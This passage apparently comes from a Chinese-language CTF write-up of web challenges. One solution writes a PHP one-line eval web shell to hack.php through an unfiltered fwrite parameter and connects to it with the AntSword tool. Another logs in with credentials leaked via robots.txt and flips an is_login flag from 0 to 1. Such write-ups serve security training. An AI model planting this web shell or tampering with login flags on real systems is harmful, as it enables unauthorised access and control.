 [fread函数](https://www.runoob.com/php/func-filesystem-fread.html)

代码审计到[fwrite函数](https://www.runoob.com/php/func-filesystem-fwrite.html)，而且是将get传出的参数写进去，可以考虑一句话木马，同时传入的参数不能大于33个字符，同时还会将flag.php中的内容读写到hack.php，解法一：没有过滤Eval，

```
<?php @Eval($_POST['hack']);?> 
```

然后蚁剑连接即可：xxx.xxx.xxx.xxx/hack.php

解法二：

写入

```
<?php show_source(__FILE__);?> 
```

## 2016-西普杯京津冀信息安全挑战赛-Web-web01

robots.txt文件泄露，需要先将re2给搞出来

得到用户名：admin密码：328du919sud9

登陆后显示Flag is Not Here!

抓包对is_login进行修改，将0变成1

![](img/f2e513852c04ceaa1b2bac024323868a.png)

## 2016-西普杯京津冀信息安全挑战赛-Web-web02
